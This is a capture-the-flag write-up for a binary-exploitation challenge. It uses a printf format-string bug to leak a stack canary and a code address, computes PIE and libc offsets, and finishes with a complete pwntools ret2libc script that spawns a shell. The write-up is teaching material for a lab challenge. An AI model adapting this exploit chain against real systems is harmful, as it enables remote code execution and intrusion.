 # Reverse

Firstly we run `checksec` on the binary.

![aa](<buy-coofeeImages/Pasted image 20240929131928.png>)

We see that we have all the important protections enabled. Quite scarry at first sight right?

We load up the binary in Ghidra and the execution flow reaches this function, `coffee()`

![aa](<buy-coofeeImages/Pasted image 20240929132209.png>)

We see that indeed we have a canary and a buffer of 24 bytes on the stack. But on line `15` we see the vulnerability an `fread()` call that reads up to 80 characters in the buffer (including null bytes).

# Pwning

## Bypass Canary and PIE

How do we bypass the stack canary though to redirect the execution flow? Only if we could leak things from the stack. 

Luckily we can, on line 12 there is a `printf()` Format String Vulnerability, this allows us to leak contents from the stack including the canary.

By using `%n$lX` we can print the n-th argument passed to `printf()`. Let's look at the calling convention on `x86-64`.
![aa](<buy-coofeeImages/Pasted image 20240929133412.png>)

We see that on Linux we pass the parameters in the following order:
- RDI
- RSI
- RDX
- RCX
- R8
- R9
- Stack

So **RDI** will be at offset 0, **RSI** at offset 1 and so on, this means that the first argument from the stack is at offset 6. Let's take a look at the stack when we enter the `printf()` function.

![aa](<buy-coofeeImages/Pasted image 20240929133657.png>)

We see that at `rsp+0x08` we have the 6th argument passed to `printf()`, our string. At `rsp+32` which is the `9th` argument passed to `printf()` we have the stack canary. 
Moreover at `rbp+0x08` or at `rsp+48` or the `11th` argument on the stack we have the return address of the `printf()` call, which returns in main, in `main+78` to be more specific.

So by supplying `%9$lX %11$lX` as input to the `printf()` function we will get these two values separated by a space.

```
[*] Output  FA221527F3AC6B00 56555153C332
```

Now we can safely overwrite the return address and redirect the execution flow. We can perform a `ret2libc` attack. The simplest way to do so is to call `system()` with the argument of `/bin/sh`. 

Following the syscall convention of x86-64 we need to pass the address of `/bin/sh`(the **libc** contains the string `/bin/sh`) by the **RDI** register. 

## Ret2libc

We use `ROPgadget` to find the `pop rdi ; ret` and we find one.
![aa](<buy-coofeeImages/Pasted image 20240929134909.png>)
We cannot just jump to the gadget's location because remember the binary is compiled as **PIE** enabled. So we need to calculate where to jump based on the leaked `main+78` address and the offset between `main+78` and the gadget in the code.

```python
#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
```

The script also outputs the address of the `printf()` function from libc and we also received the library used by the challenge (2.31). Using these two we can pinpoint the version used by the binary exactly using **libc-database**. In this case it is `libc6_2.31-0ubuntu9.9_amd64`.

![aa](<buy-coofeeImages/Pasted image 20240929140201.png>)

From here we calculate the offsets to the string `/bin/sh` and `system()`.
```python
system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D
```

## Exploit
We chain everything together and let's do not forget of the extra `ret` needed for the `MOVAPS` instruction.

```python
from pwn import *
import logging

context.log_level='DEBUG'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

gdb_script = f"""
"""

io = gdb.debug('./buy_me_coffee_patched', gdbscript = gdb_script)
#io = remote("34.159.156.124", 32123)

output = io.recvuntil('$')

io.sendline('%9$lX %11$lX') # 9 canary; 11 main+78

output = io.clean(timeout=1)

log.info("Output " + output.decode())
log.success("Canary: " + output.decode().split(' ')[1])
log.success("Main78:" + output.decode().split('W')[0].split(' ')[2])
log.success("Code base: " + str(hex(int(output.decode().split('W')[0].split(' ')[2], 16) - 0x1332)))

canary = int(output.decode().split(' ')[1], 16)
main78 = int(output.decode().split('W')[0].split(' ')[2], 16)
  
printfAddr = int(output.decode().split(' ')[5].split('\n')[0], 16)
log.success("Printf address: "+ output.decode().split(' ')[5].split('\n')[0])

system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D

#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
just_a_ret = main78 - 0x10c

payload = b'A' * 24
payload += p64(canary)
payload += b'B' * 8     #skip saved RBP

payload += p64(just_a_ret)
payload += p64(rop_gadget_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr)

io.sendline(payload)
io.interactive()
```

## Flag

Last we run it on remote and get the flag! :)
![aa](<buy-coofeeImages/Pasted image 20240929142109.png>)
